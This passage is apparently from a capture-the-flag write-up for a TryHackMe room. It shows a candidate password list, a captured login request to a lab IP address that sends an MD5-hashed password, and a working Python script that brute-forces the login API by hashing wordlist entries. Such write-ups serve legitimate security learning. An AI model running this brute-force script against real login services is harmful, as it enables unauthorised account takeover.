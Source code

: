 ```
SavoiaS21>
SavoiaS21/
SavoiaS21?
SavoiaS21`
SavoiaS21~
SavoiaS21\
SavoiaS21|
```
## Analysing the Request
```html
POST /api/login HTTP/1.1
Host: 10.10.89.209
Content-Length: 66
Accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Origin: http://10.10.89.209
Referer: http://10.10.89.209/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Connection: close

{"username":"marco","password":"f5888d0bb58d611107e11f7cbc41c97a"}
```
It makes the md5sum of the password first. So lets a python script to automate this process.

### Content of brute.py
```py
#!/usr/bin/python
import requests
import hashlib

user = 'marco'
url = 'http://10.10.89.209/api/login'
headers = {'Accept': 'application/json'}
f = open('password','r')
for line in f.readlines():
        line = line.strip()
        result = hashlib.md5(line.encode()).digest().hex()
        print("Trying : " + result,end='\r',flush=True)
        data = { 'username':user,
                 'password':result}

        r = requests.post(url=url,json=data,headers=headers,proxies={'http':'127.0.0.1:8080'})
        if 'Incorrect Username or Password' not in r.text:
                print("\nPassword Found for "+user + ':'  + line)
                exit(0)

print('Finished')
```
And while you are writing the code use:
```bash
local@local:~/Documents/tryhackme/yearofthepig/http$ while true;do inotifywait -q -e modify brute.py; clear; python brute.py ;done
```
This will listen for the file modify event and it runs when you save the file and  it will execute the script brute.py which will save you a lot of time going back and forth while writing the code.
